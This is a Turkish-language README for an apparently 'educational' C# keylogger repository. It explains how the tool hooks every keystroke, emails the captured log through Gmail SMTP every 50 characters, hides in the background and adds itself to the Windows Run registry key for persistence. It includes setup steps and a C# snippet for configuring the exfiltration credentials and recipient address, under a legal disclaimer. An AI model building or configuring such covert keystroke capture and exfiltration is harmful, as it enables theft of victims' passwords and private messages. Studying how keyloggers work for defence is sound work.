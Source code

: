 PROJE TAMAMEN EĞİTİM AMAÇLIDIR!!!!
zehradagasann/KlavyeDinlemeUygulaması
 # C# Eğitim Amaçlı Keylogger Projesi

Bu proje, Visual Studio ortamında C# dili kullanılarak geliştirilmiş, **tamamen eğitim ve araştırma amaçlı** bir keylogger uygulamasıdır. Projenin temel amacı, global klavye olaylarının (hooks) nasıl yakalandığını, arka plan işlemlerinin nasıl yönetildiğini, SMTP ile e-posta gönderimini ve Windows Registry (Kayıt Defteri) ile başlangıçta çalışma ayarlarının nasıl yapıldığını göstermektir.
Projenin denemeli şekilde gösterilmesi:

---

## ⚠️ ÖNEMLİ UYARI VE YASAL SORUMLULUK REDDİ

> Bu yazılım **yalnızca eğitim ve siber güvenlik farkındalığı yaratma amacıyla geliştirilmiştir.** Başka bir kişinin bilgisi ve rızası olmadan bilgisayarına bu tür bir yazılım yüklemek, kişisel verilerin gizliliğini ihlal eder. Bu eylem, TCK dahil olmak üzere birçok ülkenin yasalarına göre **yasa dışı olup ciddi hukuki ve cezai sonuçlar doğurabilir.**
>
> Bu kodun veya uygulamanın yasa dışı, kötü niyetli veya etik olmayan amaçlarla kullanılmasından doğacak hiçbir yasal sorumluluk kabul edilmemektedir. **Bu projeyi kullanarak tüm sorumluluğu üstlenmiş olursunuz.** Lütfen bu aracı sadece kendi sisteminizde, öğrenme ve test amacıyla kullanın.

---

## 🎯 Projenin Eğitim Hedefleri

*   **Global Klavye Kancaları (Hooks):** `HootKeys` gibi üçüncü parti bir kütüphane kullanarak sistem genelindeki klavye olaylarını nasıl dinleyeceğimizi öğrenmek.
*   **Veri Biriktirme ve Gönderme:** Yakalanan tuş vuruşlarını bir değişkende biriktirip belirli bir limite ulaşıldığında bu veriyi ağ üzerinden (e-posta ile) nasıl göndereceğimizi anlamak.
*   **SMTP Protokolü Kullanımı:** C# `System.Net.Mail` kütüphanesi ile Gmail gibi servisler üzerinden nasıl e-posta gönderileceğini kavramak.
*   **Windows'ta Kalıcılık (Persistence):** Bir uygulamanın, Windows Kayıt Defteri'ne (`Registry`) kendini ekleyerek her başlangıçta otomatik olarak nasıl çalıştırılabileceğini öğrenmek. Bu, siber güvenlikte "kalıcılık mekanizmaları"nı anlamak için önemli bir konsepttir.
*   **Arka Plan Uygulaması:** Bir Windows Forms uygulamasının görsel bir arayüz olmadan arka planda nasıl çalışabileceğini görmek.

---

## ✨ Projenin Özellikleri

*   **Geniş Karakter Desteği:** Standart alfanümerik karakterlerin yanı sıra Türkçe karakterleri (ğ, ü, ş, i, ö, ç), rakamları ve temel noktalama işaretlerini yakalar.
*   **Caps Lock Durum Takibi:** Caps Lock tuşunun durumuna göre büyük/küçük harf ayrımını doğru bir şekilde yapar.
*   **Veri Gönderimi:** Yakalanan tuş vuruşları 50 karaktere ulaştığında, belirlenen bir e-posta adresine logları otomatik olarak gönderir.
*   **Başlangıçta Otomatik Çalışma:** Uygulama ilk kez çalıştığında, kendini Windows `Run` kayıt defteri anahtarına ekleyerek sistem her yeniden başladığında otomatik olarak çalışır.

---

## 🛠️ Kurulum ve Çalıştırma

### Gereksinimler
*   **IDE:** Visual Studio 2019 veya daha yeni bir sürümü
*   **.NET Sürümü:** .NET Framework 4.5+
*   **Bağımlılık:** `HootKeys` kütüphanesi.

### Adımlar
1.  **Projeyi Klonlayın veya İndirin:**
    ```bash
    git clone https://github.com/[zehradagasann]/[games-zehradagasann].git
    ```

2.  **Projeyi Visual Studio'da Açın:**
    *   Proje klasöründeki `.sln` uzantılı dosyayı açın.

3.  **Bağımlılığı Yükleyin:**
    *   Proje, `HootKeys` adlı bir kütüphane kullanmaktadır. Bu kütüphaneyi projenize eklemeniz gerekir.
    *   Visual Studio'da `Tools > NuGet Package Manager > Package Manager Console` yolunu izleyin.
    *   Açılan konsola aşağıdaki komutu yazıp Enter'a basın:
      ```powershell
      Install-Package HootKeys
      ```

4.  **E-posta Bilgilerini Yapılandırın (ÇOK ÖNEMLİ):**
    *   `Form1.cs` dosyasını açın ve `Mail()` fonksiyonunu bulun.
    *   Aşağıdaki satırlardaki e-posta ve şifre bilgilerini **kendi bilgilerinizle** değiştirin:
      ```csharp
      istemci.Credentials = new System.Net.NetworkCredential("SENDER-EMAIL@gmail.com", "YOUR-APP-PASSWORD");
      // ...
      msj.From = new MailAddress("SENDER-EMAIL@gmail.com");
      msj.To.Add("RECEIVER-EMAIL@gmail.com");
      ```
    *   **Güvenlik Notu:** Gmail, artık standart şifrelerin bu tür uygulamalarda kullanılmasına izin vermemektedir. Bunun yerine Google Hesabınızda **"Uygulama Şifreleri" (App Passwords)** oluşturmanız gerekmektedir.

5.  **Derleyin ve Çalıştırın:**
    *   Projeyi derlemek için `F5` tuşuna basın veya `Debug > Start Debugging` menüsünü kullanın.
    *   Uygulama çalışmaya başladığında arka plana geçecektir. Klavye girişleriniz kaydedilecek ve 50 karaktere ulaştığında belirttiğiniz e-posta adresine gönderilecektir.

---

## ⚙️ Kodun Teknik Açıklaması

*   **`TuslariDinle()`:** Bu metot, `globalKeyboardHook` nesnesini başlatır ve dinlenmesi istenen tüm tuşları (`Keys` enum'ı) `HookedKeys` listesine ekler. Son olarak `KeyDown` olayına `TusKombinasyonu` metodunu atar.
*   **`TusKombinasyonu(object sender, KeyEventArgs e)`:** Bu, her tuşa basıldığında tetiklenen ana metottur.
    *   Gelen `e.KeyCode` değerini kontrol ederek basılan tuşu tespit eder.
    *   `if/else` blokları ile bu tuşun karakter karşılığını `log` adlı string değişkene ekler.
    *   `number` sayacını artırır ve sayaç 50'yi geçtiğinde `Mail()` metodunu çağırarak logları gönderir ve değişkenleri sıfırlar.
*   **`Mail()`:** `System.Net.Mail.SmtpClient` sınıfını kullanarak, önceden tanımlanmış kimlik bilgileriyle `smtp.gmail.com` sunucusu üzerinden e-posta gönderir.
*   **`Form1_Load(object sender, EventArgs e)`:** Uygulama ilk yüklendiğinde çalışır.
    *   `Control.IsKeyLocked(Keys.CapsLock)` ile Caps Lock'un başlangıç durumunu kontrol eder.
    *   `Microsoft.Win32.Registry` sınıfını kullanarak `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` anahtarına erişir ve uygulamanın yürütülebilir dosya yolunu (`Application.ExecutablePath`) bu anahtara ekler. Bu sayede uygulama kalıcı hale gelir.

---

